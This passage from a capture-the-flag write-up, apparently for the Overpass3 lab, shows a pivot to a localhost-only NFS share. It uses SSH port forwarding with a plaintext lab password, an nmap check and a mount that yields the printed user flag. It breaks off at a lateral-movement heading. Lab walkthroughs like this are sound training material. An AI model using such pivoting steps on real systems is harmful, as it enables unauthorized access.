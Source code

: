 I tried to mount the NFS share but it failed, because NFS is only accessible to localhost.

~~~
┌──(kali㉿kali)-[/data/Overpass3/files]
└─$ mkdir nfs          
                                                                                                                     
┌──(kali㉿kali)-[/data/Overpass3/files]
└─$ sudo mount -t nfs 10.10.158.2:/home/james nfs      
[sudo] password for kali: 

mount.nfs: Connection timed out
~~~

To make NFS available to us, we'll use a port forwarding as follows:

~~~
$ sshpass -p "ShibesAreGreat123" ssh paradox@10.10.158.2 -L 2049:127.0.0.1:2049
~~~

Now, NFS is available to us, which we can confirm with the below Nmap scan:

~~~
┌──(kali㉿kali)-[/data/Overpass3/files/nfs]
└─$ nmap -p 2049 -sC -sV 127.0.0.1
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-04 15:32 CEST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00013s latency).

PORT     STATE SERVICE VERSION
2049/tcp open  nfs     3-4 (RPC #100003)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.81 seconds
~~~

## User flag

And now, we can access the NFS share and get the user flag:

~~~
$ sudo mount -t nfs 127.0.0.1: nfs
$ cd nfs 
$ ll    
total 4
-rw------- 1 kali kali 38 Nov 17 22:15 user.flag
$ cat user.flag 
thm{3693fc86661faa21f16ac9508a43e1ae}
~~~

User flag: `thm{3693fc86661faa21f16ac9508a43e1ae}`

# Root flag

## Lateral move (paradox -> james)
